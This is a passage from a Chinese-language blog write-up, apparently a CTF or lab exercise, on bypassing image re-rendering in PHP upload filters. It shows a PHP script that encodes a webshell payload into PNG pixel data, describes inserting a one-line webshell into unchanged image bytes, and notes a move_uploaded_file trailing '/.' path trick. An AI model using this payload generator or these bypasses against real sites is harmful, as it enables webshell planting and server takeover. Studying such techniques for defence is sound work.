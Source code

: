  ![image-20240512183129357](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121831466.png)

  ![image-20240512190953363](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121909520.png)

  将上传的文件下载后用010打开，与原文件进行比较，发现一句话木马消失了。

  ![image-20240512191245977](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121912029.png)![image-20240512191253918](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121912976.png)

  找到没变的地方插入木马，再次上传

  ![image-20240512191617523](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121916610.png)

  ![image-20240512191810352](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121918436.png)

  * 成功包含

  ![image-20240512191759342](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121917451.png)

## **png格式**
  如果是png后缀的话通常是全部改变，需要用脚本生成webshell
  
```
  <?php
  $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```
# move_uploaded_file

`move_uploaded_file()`这样一个函数，它有一个特性，会`忽略`到文件末尾的`/. `及后面的内容
并且 move_uploaded_file() 函数中的 img_path 是由post参数 save_name 控制的，这就可以在 save_name 的参数上面改动。

![image-20240512201442905](C:\Users\钟雨丹\AppData\Roaming\Typora\typora-user-images\image-20240512201442905.png)
